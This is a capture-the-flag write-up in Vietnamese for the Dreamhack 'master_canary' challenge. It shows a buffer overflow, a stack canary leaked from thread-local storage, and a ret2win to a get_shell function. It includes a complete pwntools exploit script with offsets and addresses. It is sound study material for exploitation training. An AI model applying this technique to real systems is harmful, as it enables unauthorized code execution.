# 1. Find Bug : 



- Lỗi `buffer overflow` ở hàm `read`

# 2. Idea : 




- `checksec` thấy có canary & PIE tắt -> cần leak canary

- Có hàm `get_shell` -> Khi có canary rồi thì chỉ cần tận dụng `buffer overflow`chèn `padding + canary + rbp + get_shell` là xong

# 3. Exploit :

- Có 3 option : 1. Tạo luồng, 2. Nhập input , 3.Exit, sau exit thì nhập `buffer overflow`




- Nhìn thì chỉ có option 2 có khả năng `leak canary` do `printf("Data: %s", (const char *)global_buffer)`




- Mà ban đầu `global_buffer` = 0 nên ta cần option 1 để tạo luồng : 


- Và trong `thread_routine` thì `global_buffer` trỏ vào stack của vùng ( biến `v2` ) đồng thời có `TLS` chứa canary lại kề với `stack`

-> option 1 tạo luồng -> option 2 nhập cho luồng để tràn đến đúng `canary` -> printf `leak canary` ra




- Từ đây ta có thể tính chèn padding đến 1byte NULL của canary ta cần offset là 137




- Và đặc biệt ở `read_bytes` ta thấy `thread con` chỉ dừng khi nhập đủ byte so với `size` nên ở chỗ nhập `size` ta cũng cho đúng 137 để khi chèn 137 byte -> `leak canary` xong là thread cũng xong rồi chọn option 3 để `exit()` và overwrite saved RIP

- Ta sẽ debug động thử với script này :



----------------------------------------



- `Leak canary` đã đúng nhưng còn lỗi `xmm` ko chia hết cho 16 -> Chỉ cần Ropgadget tìm gadget`ret` rồi chèn vào để căn chỉnh stack



 
## SCRIPT :

```#!/usr/bin/python3

from pwn import *

exe = ELF("./master_canary")

context.binary = exe

s   = lambda data: p.send(data)
sa  = lambda msg, data: p.sendafter(msg, data)
sl  = lambda data: p.sendline(data)
sla = lambda msg, data: p.sendlineafter(msg, data)
sn  = lambda num: p.send(str(num).encode())
sna = lambda msg, num: p.sendafter(msg, str(num).encode())
sln = lambda num: p.sendline(str(num).encode())
slna = lambda msg, num: p.sendlineafter(msg, str(num).encode())
def GDB():
    if not args.REMOTE:
        gdb.attach(p, gdbscript='''
        c
        ''')
        input()


if args.REMOTE:
    p = remote('')
else:
    p = process([exe.path])
# GDB()

sla(b'> ', b'1')
sla(b'> ', b'2')
sla(b'Size: ', b'137')
sa(b'Data: ', b'A'*137)
p.recvuntil(b'A'*137)
canary = u64(b'\0' + p.recv(7))
log.info("canary : " + hex(canary))

sla(b'> ', b'3')
payload = b'A'*40
payload += p64(canary)
payload += p64(0)
payload += p64(0x00000000004007e1)
payload += p64(0x400a4a)
sa(b'comment: ', payload)


p.interactive()
```

# 4. Get Flag :




- Vì do bài này trên dreamhack quá cũ, do libc, ... mà local được mà lên sever ko được

# 5. Learned :

- `pthread_create`: Tạo ra luồng mới đi kèm với vùng nhớ TLS riêng biệt

- `TLS` lưu trữ thông tin quản lý luồng, chứa `Master Canary` ( canary giống nhau trong mọi thread ), thường nằm gần buf nào đó và khi overflow -> leak canary
